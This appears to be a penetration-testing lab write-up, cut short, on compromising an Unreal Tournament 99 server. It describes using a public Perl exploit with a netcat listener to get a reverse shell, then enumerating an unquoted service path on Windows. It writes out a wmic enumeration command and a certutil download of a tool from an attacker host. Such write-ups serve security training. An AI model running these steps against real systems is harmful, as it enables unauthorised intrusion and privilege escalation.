 #### - Googled "Unreal Tournament 99 Game Server"  and found the following exploit:

![](../Images/Pasted%20image%2020220704010511.png)

![](../Images/Pasted%20image%2020220704010833.png)

#### - Downloaded the exploit on my kali machine

#### - Started a netcat listener on my kali machine listening on port 80

#### - Typed "perl 16145.pl" and found to input the following syntax:

![](../Images/Pasted%20image%2020220704011433.png)

#### - I then input the correct syntax and recieved a reverse shell:

---

# Privilege Escalation
## Local Enumeration

#### - Typed "wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """" to confirm if there were any unquoted service paths on target machine and found the following:

![](../Images/Pasted%20image%2020220706130357.png)

#UnqoutedServicePath #PrivilegeEscalation 

#### - I also verified the same unquoted service path utilizing winpeas.bat. (additionally found the service to be running with NT/Authority System):

![](../Images/Pasted%20image%2020220708005816.png)

![](../Images/Pasted%20image%2020220708005834.png)

## Privilege Escalation vector
## Unquoted Service Path

#### - Typed "certutil.exe -urlcache -split -f "http://[Kali IP]:84/accesschk.exe" on target machine to download the accesschk binary
